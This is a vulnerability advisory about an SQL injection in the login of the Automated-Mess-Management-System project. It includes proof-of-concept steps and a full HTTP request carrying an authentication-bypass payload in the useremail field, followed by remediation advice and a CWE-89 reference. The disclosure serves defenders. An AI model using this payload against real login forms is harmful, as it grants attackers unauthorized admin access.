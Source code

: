 # boyiddha / Automated-Mess-Management-System - SQL Injection Login

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The SQL Injection vulnerability in the login functionality of the Automated-Mess-Management-System allows attackers to bypass authentication mechanisms and gain unauthorized access to the admin panel. By injecting malicious SQL queries, attackers can manipulate the login process to always return true, granting them elevated privileges without valid credentials.

## Proof of Concept
Step 1: Attempt to log in with a non-existing email address and a random password.\
Step 2: Intercept the login request and inject the following payload into the 'useremail' parameter: "`+or+1%3d1+%23+limit+1+%23". This payload exploits the SQL injection vulnerability by modifying the query to always return true, effectively bypassing the authentication process.\
Step 3: Submit the modified request and observe that the application redirects you to the admin panel without requiring valid credentials, granting unauthorized access.

## HTTP Request Example
``` http request
POST /index.php HTTP/1.1
Host: [REDACTED]
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

userType=Admin&useremail='+or+1%3d1+%23+limit+1+%23&password=NoChizPlz&login=
```
## Proof with Screenshot

## Remidiation
To mitigate this vulnerability, developers should implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, enforcing the principle of least privilege by limiting the permissions of database users and implementing robust authentication mechanisms can help prevent unauthorized access to sensitive areas of the application.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
